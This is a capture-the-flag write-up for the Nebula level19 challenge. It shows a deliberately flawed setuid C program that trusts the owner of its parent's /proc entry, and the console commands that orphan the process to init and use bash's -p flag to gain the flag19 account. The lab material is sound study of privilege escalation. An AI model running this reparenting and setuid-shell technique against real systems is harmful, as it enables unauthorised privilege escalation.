 ## Challenge
There is a flaw in the below program in how it operates.

## Solution
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
      printf("Unable to check parent process\n");
      exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
      /* If root started us, it is ok to start the shell */

      execve("/bin/sh", argv, envp);
      err(1, "Unable to execve");
  }

  printf("You are unauthorized to run this program\n");
}
```
Program flow:
* construct path to parent process's directory in `/proc`
* retrieve directory's `stat` structure
* check if owner uid equals to `0` (root)
  * execute `/bin/sh` with given arguments

Ideas for exploitation:
* schedule a `cron` job to run the process (`cron` is a root owned daemon) ❌
  * `cron` executes commands using a user owned shell, thus the parent of our process will not be root `cron`.
* kill the parent process, cause child to move to a new parent - root `init` process ✔
  * race condition, parent should be killed before child executes critical code parts

### Init Parent Process
I found that executing `sh -c 'COMMAND &'` will cause the wanted effect.
```console
level19@nebula:/home/flag19$ sh -c './flag19 -c "echo hello world"&'
level19@nebula:/home/flag19$ hello world
```

But there is a problem with this solution,
```console
level19@nebula:/home/flag19$ sh -c './flag19 -c "id" &'
level19@nebula:/home/flag19$ uid=1020(level19) gid=1020(level19) groups=1020(level19)
```
We are not running as `flag19`...

### Running as `flag19`
As we already learned from this series of challenges, `man` is a good friend.
```console
level19@nebula:~$ man bash
```
> If  the  shell is started with the effective user (group) id not equal to the real user (group) id, and the -p option is not supplied, no startup files are read, shell functions are not inherited from the environment, the SHELLOPTS, BASHOPTS, CDPATH, and GLOBIGNORE variables, if they appear in the environment, are ignored, and the effective user id is set to  the  real user id.  If the -p option is supplied at invocation, the startup behavior is the same, but the effective user id is not reset.

We start `bash` with an effective user id of `flag19` (because `setuid` binary) and a real user id of `level19` (the user that executed the program), and this explains why our effective user id resets to the real user id. We shall use the `-p` flag to avoid this behavior.

```console
level19@nebula:~$ sh -c '/home/flag19/flag19 -c "id" &'
level19@nebula:~$ uid=1020(level19) gid=1020(level19) groups=1020(level19)
level19@nebula:~$ sh -c '/home/flag19/flag19 -p -c "id" &'
level19@nebula:~$ uid=1020(level19) gid=1020(level19) euid=980(flag19) groups=980(flag19),1020(level19)
```
```console
level19@nebula:~$ sh -c '/home/flag19/flag19 -p -c "getflag" &'
level19@nebula:~$ You have successfully executed getflag on a target account
```

### Last Words
Wow, it's really over isn't it?

I'd like to finish my writeup with a huge thank-you to the people behind exploit.education, it has been a real joyride.

Next up, Phoenix!
